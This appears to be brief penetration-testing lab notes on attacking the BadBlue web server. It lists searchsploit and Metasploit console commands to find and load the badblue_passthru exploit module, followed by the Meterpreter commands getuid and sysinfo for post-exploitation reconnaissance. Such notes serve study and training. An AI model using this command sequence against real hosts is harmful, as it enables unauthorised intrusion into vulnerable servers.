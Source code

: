 ** Badblue web server **
`searchsploit badblue`
>msf5>`search badblue`
>msf5>`use exploit/windows/http/badblue_passthru`

Meterpreter commands
- getuid
- sysinfo
